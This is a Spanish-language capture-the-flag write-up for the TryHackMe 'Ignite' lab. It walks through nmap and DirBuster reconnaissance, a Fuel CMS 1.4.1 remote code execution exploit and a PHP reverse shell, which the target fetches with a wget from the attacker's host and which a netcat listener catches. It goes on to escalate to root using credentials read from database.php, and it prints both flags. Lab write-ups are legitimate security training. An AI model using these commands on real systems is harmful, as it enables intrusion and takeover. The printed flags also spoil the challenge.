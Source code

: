 # Ignite 

https://tryhackme.com/room/ignite

## NMAP

Hacemos un escaneo con `nmap` para ver las versiones también.

```
nmap -sV 10.10.98.176
```

![Imagen](images/Pasted%20image%2020250128103258.png)

Sólo escanea los puertos más comunes por defecto así que usamos la opción `-p-` para probar con todos.

Para detectar el SO y la versión del mismo usamos `-O`:

```
sudo nmap -sV -O 10.10.98.176
```
No nos da resultados y es algo normal que eso suceda.

También podemos modificar los tiempos entre los paquetes para que sea más difícil detectarlos. El modo 5 es el más agresivo y el 1 es el más "paranoico". Entre 3 y 4 es lo más normal y está en t3 por defecto.

```
sudo nmap -sV -O -T4 10.10.98.176
```

![Imagen](images/Pasted%20image%2020250204105623.png)

## Fuzzing 

Accedemos a la página web y usamos `DirBuster` para hacer fuzzing a la URL mientras seguimos inspeccionando el contenido de la página.

![Imagen](images/Pasted%20image%2020250212170404.png)

Descubrimos un login:

![Imagen](images/Pasted%20image%2020250212170436.png)

El fuzzing nos da los mismos resultados:

![Imagen](images/Pasted%20image%2020250212170557.png)

## /fuel/

Accedemos pues a `/fuel` y entramos con el usuario y contraseñas indicados.

![Imagen](images/Pasted%20image%2020250212170659.png)

Accedimos a un panel de administración del sitio web.

![Imagen](images/Pasted%20image%2020250212170830.png)

En la pestaña de `assets` podemos subir un archivo.

![Imagen](images/Pasted%20image%2020250212172318.png)

Nos aprovecharemos de esto ahora mismo.

## Reverse Shell

Usaremos la siguiente reverse shell de PHP:

https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

La modificamos con la IP de la VPN de nuestro Kali y el puerto 4444:

![Imagen](images/Pasted%20image%2020250212172546.png)

La página sólo permite subir archivos .zip pero podemos hacer que se descompriman automáticamente al subirlos.



Ponemos en escucha el puerto 4444:

```
nc -lvnp 4444
```

## exploit-db

Buscamos la vulnerabilidad de "fuel CMS" y encontramos la de la versión 1.4.1 de Remote Code Execution.

![Imagen](images/Pasted%20image%2020250212172655.png)

Nos descargamos el exploit.

![Imagen](images/Pasted%20image%2020250212172715.png)

Lo ejecutamos con el siguiente comando y accedemos al sistema finalmente.

![Imagen](images/Pasted%20image%2020250212172759.png)

Aunque es una shell muy limitada actualmente, no nos permite hacer casi nada.

Buscamos pues una reverse shell de php.

![Imagen](images/Pasted%20image%2020250220172524.png)

Nos la descargamos y editamos unos parámetros. La IP es la de nuestro Kali en la VPN de Tryhackme, 10.8.3.33 y el puerto 5000.

![Imagen](images/Pasted%20image%2020250220172721.png)

Abrimos una consola de`netcat`en escucha para el puerto 5000.

```
nc -lvnp 5000 
```

![Imagen](images/Pasted%20image%2020250220172838.png)

También abrimos un servidor http con Python por el puerto 9000.

```
python3 -m http.server 9000
```

>IMPORTANTE: La reverse shell de php que vamos a utilizar tiene que estar en la misma carpeta desde la que abrimos el servidor de python.

![Imagen](images/Pasted%20image%2020250220173032.png)

Hacemos clic en "RAW" en la página de github de antes de la reverse shell de php y copiamos la URL. 

![Imagen](images/Pasted%20image%2020250220173141.png)

```
https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php
```

Nos descargamos en el servidor la reverse shell que editamos.

```
wget http://10.8.3.33:9000/shell.php
```

![Imagen](images/Pasted%20image%2020250220174600.png)

![Imagen](images/Pasted%20image%2020250220174600.png)

Accedemos a la URL del archivo que hemos subido de php. La página se quedará cargando cuando se haya establecido la conexión.
![Imagen](images/Pasted%20image%2020250220174734.png)

En el puerto que abrimos en escucha con `netcat`hemos establecido la conexión.

![Imagen](images/Pasted%20image%20250220180225.png)

Obtenemos la primera **flag**:

![Imagen](images/Pasted%20image%20250220180225.png)

```
6470e394cbf6dab6a91682cc8585059b
```

## Escalada de privilegios

Ahora vamos a hacer una escalada de privilegios. Nos dirigimos a la siguiente ruta donde está la base de datos.

```
cd /var/www/html/fuel/application/config
```

Y mostramos el fichero `database.php`. En él están las credenciales del usuario `root`.

![Imagen](images/Pasted%20image%20250220180945.png)

Hacemos más interactiva la terminal con el siguiente comando de python:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Accedemos ahora si al usuario `root`.

```
su root
```

Y la contraseña es `mememe`.

![Imagen](images/Pasted%20image%20250220182137.png)

Finalmente, obtenemos la última flag que se encuentra en la carpeta `root`y en el fichero `root.txt`.

![Imagen](images/Pasted%20image%20250220182314.png)

```
b9bbcb33e11b80be759c4e844862482d
```





























